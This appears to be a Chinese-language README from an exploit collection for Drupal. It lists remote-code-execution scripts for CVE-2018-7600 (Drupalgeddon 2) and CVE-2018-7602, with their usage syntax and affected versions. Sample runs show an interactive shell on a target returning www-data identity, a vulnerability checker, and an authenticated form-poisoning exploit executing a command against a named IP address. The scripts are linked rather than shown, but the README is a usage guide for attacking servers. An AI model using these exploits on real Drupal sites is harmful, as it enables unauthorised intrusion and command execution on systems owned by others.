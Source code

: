 # About Drupal
Drupal是使用PHP语言编写的开源内容管理框架（CMF），它由内容管理系统（CMS）和PHP开发框架（Framework）共同构成。连续多年荣获全球最佳CMS大奖，是基于PHP语言最著名的WEB应用程序。截止2011年底，共有13,802位WEB专家参加了Drupal的开发工作；228个国家使用181种语言的729,791位网站设计工作者使用Drupal。著名案例包括：联合国、美国白宫、美国商务部、纽约时报、华纳、迪斯尼、联邦快递、索尼、美国哈佛大学、Ubuntu等。

# Vulnerability list
[**cve-2018-7600_cmd.py**](https://github.com/zhzyker/exphub/tree/master/drupal) Drupal Drupalgeddon 2 远程代码执行漏洞利用脚本[[使用]](https://freeerror.org/d/426)  
[**cve-2018-7600_poc.py**](https://github.com/zhzyker/exphub/tree/master/drupal) 该脚本可检测 CVE-2018-7602 和 CVE-2018-7600  
[**cve-2018-7602_cmd.py**](https://github.com/zhzyker/exphub/tree/master/drupal) Drupal 内核远程代码执行漏洞利用脚本(需要账户密码)  
[**cve-2018-7602_poc.py**](https://github.com/zhzyker/exphub/tree/master/drupal) 该脚本可检测 CVE-2018-7602 和 CVE-2018-7600 

# Readme
部分脚本文件使用说明，详细使用分析请参考[vulnerability-list](https://github.com/zhzyker/exphub/tree/master/drupal#vulnerability-list)中的[使用]
- VER: 漏洞影响版本，一般情况下不在影响范围的版本没有相关漏洞
- USE: 脚本文件使用说明，大部分写在了脚本里，执行即可见
- EXP: 脚本利用示例，以及执行效果
- DES: 部分特殊脚本文件的特殊描述

## CVE-2018-7600_cmd.py	Drupal Drupalgeddon 2 远程代码执行漏洞利用脚本
> USE:
> ```
> +----------------------------------------------------------------------+
> + DES: by zhzyker as https://github.com/zhzyker/exphub                 +
> +      Drupal Drupalgeddon 2 远程代码执行 CVE-2018-7600                +
> +----------------------------------------------------------------------+
> + USE: python3 <filename> <url>                                        +
> + EXP: python3 cve-2018-7600_cmd.py http://1.1.1.1:8080                +
> + VER: Drupal 6.x                                                      +
> +      Drupal 7.x < 7.58                                               +
> +      Drupal 8.3 < 8.3.9                                              +
> +      Drupal 8.4 < 8.4.6                                              +
> +      Drupal 8.5 < 8.5.1                                              +
> +----------------------------------------------------------------------+
> + DES: Shell仅能回显一行代码，多行代码结果查看http://xxxx/exphub.txt   +
> +----------------------------------------------------------------------+
> ```
> EXP:
> ```
> zhzy@debian:$ python3 cve-2018-7600_cmd.py http://freeerror.org:8080
> [+] http://freeerror.org:8080/exphub.txt
> 
> Shell >>> id
> uid=33(www-data) gid=33(www-data) groups=33(www-data)
> Shell >>> whoami
> www-data
> Shell >>> exit
> ```

## CVE-2018-7600_poc.py	该脚本可检测 CVE-2018-7602 和 CVE-2018-7600
> EXP:
> ```
> zhzy@debian:$ python3 cve-2018-7600_poc.py http://freeerror.org:8081
> 
> +------------------------------------------------------------------+
> +                           iDrupal                                +
> +                          by IAmG0d                               +
> +------------------------------------------------------------------+
> + USE: python3 <filename> <url>                                    +
> + EXP: python3 cve-2018-7602_poc.py http://freeerror.org:8081      +
> +------------------------------------------------------------------+
> + DES: 该脚本可检测 CVE-2018-7602 和 CVE-2018-7600                 +
> +------------------------------------------------------------------+
> 
> [~] Checking the version of http://freeerror.org:8081/
> [+] Possibly vulnerable to CVE-2018-7600!
> [+] Possibly vulnerable to CVE-2018-7602!
> [0:)] Thank You For Using... Goodbye
> ```

## CVE-2018-7602_cmd.py	Drupal 内核远程代码执行漏洞利用脚本(需要账户密码)
> EXP:
> ```
> zhzy@debian:/debian/archives-tool/web-drupal$ python cve-2018-7602_cmd.py admin admin http://182.61.16.221:8081 -c id
> ()
> +---------------------------------------------------------------------------------+
> +   DRUPAL 7 <= 7.58 REMOTE CODE EXECUTION (SA-CORE-2018-004 / CVE-2018-7602)     +
> +                                   by pimps                                      +
> +---------------------------------------------------------------------------------+
> + USE: python3 <filename> <username> <password> <url> -c <command>                +
> + EXP: python3 cve-2018-7602_cmd.py admin admin http://1.1.1.1:8080 -c "id"       +
> + VER: Drupal 7.x < 7.59                                                          +
> +      Drupal 8.4 < 8.4.8                                                         +
> +      Drupal 8.5 < 8.5.3                                                         +
> +---------------------------------------------------------------------------------+
> + DES: CVE-2018-7602 Need Username Password                                       +
> +---------------------------------------------------------------------------------+
> 
> [*] Creating a session using the provided credential...
> [*] Finding User ID...
> [*] User ID found: /user/1
> [*] Poisoning a form using 'destination' and including it in cache.
> [*] Poisoned form ID: form-6iAq8Ou5pKFQqEZ4sh1A_zQI_5QMSC71Stp4ohaseW0
> [*] Triggering exploit to execute: id
> uid=33(www-data) gid=33(www-data) groups=33(www-data)
> ```
